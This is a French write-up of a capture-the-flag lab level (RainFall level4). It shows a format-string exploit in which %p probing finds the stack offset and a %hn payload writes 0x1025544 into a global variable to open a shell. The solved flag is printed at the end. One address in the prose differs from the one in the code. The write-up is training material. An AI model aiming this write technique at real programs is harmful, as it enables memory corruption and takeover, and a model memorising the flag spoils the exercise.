 Nous remarquons que le programme utilise un fgets, puis met la sortie de fgets en premier argument du printf, ce qui est une faille de sécurité. Nous pouvons mettre une valeur de notre choix à certaines adresses, grâce à l'utilisation du flag %n.

L'assembleur nous montre une comparaison entre 16930116 et la variable global à l'adresse `0x804988c`, si la comparaison réussi l'on peut acceder au shell.

```asm
 804848d:	a1 10 98 04 08       	mov    0x8049810,%eax
 8048492:	3d 44 55 02 01       	cmp    $0x1025544,%eax
```

Nous recherchons l'adresse de début du buffer à l'aide de printf.

```bash
level4@RainFall:~$ ./level4 
aaaa%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
aaaa0xb7ff26b0.0xbffff784.0xb7fd0ff4.(nil).(nil).0xbffff748.0x804848d.0xbffff540.0x200.0xb7fd1ac0.0xb7ff37d0.0x61616161
```

Le nombre 16930116 étant trop grand, on identifie la partie haute/basse du nombre afin de pouvoir le mettre en deux fois.

```python
>>> hex(16930116)
'0x1025544'
>>> 0x1025544 >> 16
258
>>> 0x1025544 & 0xFFFF
21828
```

Ensuite, il nous suffit de stipuler l'adresse de la variable que l'on veut modifier, ainsi que son offset dans la stack et on remplit la partie haute de la variable afin d'y mettre la valeur de 258. Et la partie basse de la variable, à la valeur de 21828.

```bash
level4@RainFall:~$ python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12$hn%21570x%13$hn"' | ./level4 
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
